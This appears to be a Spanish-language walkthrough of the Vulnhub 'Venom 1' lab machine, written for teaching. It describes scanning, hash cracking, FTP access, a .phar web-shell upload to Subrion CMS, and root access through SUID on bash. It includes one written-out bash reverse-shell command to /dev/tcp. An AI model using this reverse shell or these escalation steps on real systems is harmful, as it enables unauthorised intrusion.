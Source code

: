 #vulnhub #ctf-machine #easy-machine #linux [Vulnhub Link](https://www.vulnhub.com/entry/venom-1,701/)

## Enumeración inicial
Primeramente tenemos que identificar la IPv4 de la máquina objetiva, para hacerlo hacemos un escaneo ARP con la herramienta `arp-scan`:
![[Pasted image 20240822164239.png]]

La IPv4 de la máquina víctima es la 192.168.159.139, ya que si nos fijamos en el OUI es "00:0c" propio de las máquinas que se importan en VMware. 

Si la lanzamos una trama ICMP con `ping` podemos decir que probablemente se trata de una máquina Linux por su TTL=64:
![[Pasted image 20240822164536.png]]

### Nmap
Hacemos un escaneo inicial con `nmap` para determinar los puertos TCP abiertos de la máquina víctima y lo exportamos en un archivo en formato "grepeable" con nombre "openPorts":
![[Pasted image 20240822164811.png]]

Podemos ver que hay 3 puertos abiertos, el puerto 21,80 y 443. Por lo que hacemos un segundo escaneo con `nmap` un poco más exhaustivo para determinar la versión y servicios que corren en estos puertos:
![[Pasted image 20240822165100.png]]

Podemos ver que se trata de un sistema Ubuntu. 

Si lanzamos un análisis con `whatweb` podemos información parecida que nos estaba indicando `nmap`:
![[Pasted image 20240822165450.png]]

## Enumeración web
Si accedemos a la web podemos ver que se trata de una página por defecto de Apache2:
![[Pasted image 20240822165531.png]]

Si analizamos el código de la página podemos encontrar lo siguiente al final del código:
![[Pasted image 20240822170450.png]]

Parece una especie de *hash* así que si utilizamos `hashid` nos dice lo siguiente:
![[Pasted image 20240822171110.png]]

Podemos probar de romperlo utilizando `crackstation`:
![[Pasted image 20240822171438.png]]

Podemos ver que nos indica que se trata "hostinger". Como el comentario ponia que sigamos esto para acceder a algún lado podemos probar de acceder mediante FTP a la máquina víctima con usuario "hostinger" y contraseña "hostinger":
![[Pasted image 20240822171630.png]]

Como podemos ver tenemos acceso. Si listamos el contenido que hay podemos ver que hay una carpeta "files" con un archivo dentro con nombre "hint.txt":
![[Pasted image 20240822171741.png]]

Por lo tanto utilizamos get para traernos el archivo a nuestra máquina:
![[Pasted image 20240822171922.png]]

Si analizamos el contenido de este archivo podemos ver lo siguiente:
![[Pasted image 20240822172013.png]]

Si nos fijamos las dos primeras cadenas de caracteres extraños parecen base 64 por lo que probamos de decodificarlas para saber de qué se trata:
![[Pasted image 20240822172159.png]]

Como vemos la cadena estaba codificada en base 64 varias veces, pero finalmente podemos ver que pone "standard vigenere chipher". Por lo tanto, hacemos lo mismo con la segunda cadena:
![[Pasted image 20240822172317.png]]

 El mensaje final, nos dice que desde la página web podemos descifrar la contraseña de "dora" por lo que probamos de descifrarla utilizando la *key* "hostinger":
![[Pasted image 20240822181841.png]]

Así que si probamos de acceder con el usuario dora con esta contraseña en "venom.box" conseguimos acceso:
![[Pasted image 20240822182238.png]]
![[Pasted image 20240822182326.png]]

## File Upload to RCE
Si entramos en el panel administrativo podemos ver que se trata de un CMS Subrion 4.2.1:
![[Pasted image 20240822182550.png]]

Por lo que sí buscamos *exploits* encontramos lo siguiente:
![[Pasted image 20240822184248.png]]

Si analizamos esta vulnerabilidad, nos permite subir un archivo ".phar" que es interpretado con PHP. Por lo tanto, subimos un archivo "cmd.phar" en el apartado de *uploads* del panel administrador que se encuentra en `panel/uploads`:
![[Pasted image 20240822184431.png]]

Por lo que si accedemos en `/uploads/cmd.phar` y utilizamos el parámetro "cmd" en la url podemos ejecutar comandos:
![[Pasted image 20240822184517.png]]

Así que nos podemos entablar una reverse shell utilizando el comando:
```bash
bash -c "bash -i >& /dev/tcp/192.168.1.159.131/443 0>&1"
```

Y poniéndonos en escucha con `ncat` por el puerto 443 obtenemos acceso a la máquina:
![[Pasted image 20240822192608.png]]

Por lo tanto, hacemos el tratamiento de la TTY:
![[Pasted image 20240822192736.png]]
![[Pasted image 20240822192807.png]]

## Escalada de privilegios
Si listamos los usuarios que contienen una bash podemos ver 3:
![[Pasted image 20240822193626.png]]

Podemos probar de migrar a "hostinger" con la contraseña "hostinger" que antes nos havia funcionado con FTP:
![[Pasted image 20240822193712.png]]

Una vez como *hostinger* podemos ver que tenemos acceso a su ".bash_history":
![[Pasted image 20240822193756.png]]

Por lo que si lo leemos podemos ver que havia mostrado este archivo:
![[Pasted image 20240822193857.png]]

Si mostramos que contiene este archivo podemos ver lo que parece ser una contraseña:
![[Pasted image 20240822193939.png]]

Podemos probar de migrar al otro usuario llamado "nathan" con esta contraseña:
![[Pasted image 20240822194118.png]]

Una vez en el directorio de "nathan" podemos visualizar la primera *flag*:
![[Pasted image 20240822194156.png]]

Si listamos los permisos de "nathan" a nivel de *sudoers* vemos que tiene permisos de sudo para cualquier comando menos el binario "/bin/su" por lo que podemos escalar privilegios asignando permiso SUID  a la bash con `chmod`:
![[Pasted image 20240822194658.png]]

Y simplemente ejecutar `bash -p` para obtener una bash como *root*:
![[Pasted image 20240822194743.png]]

Finalmente, si accedemos al directorio `/root` podemos visualizar la última *flag*:
![[Pasted image 20240822194831.png]]


___
#file-upload-attacks #information-leakage #abusing-sudoers #hash-cracking #abusing-suid 
___

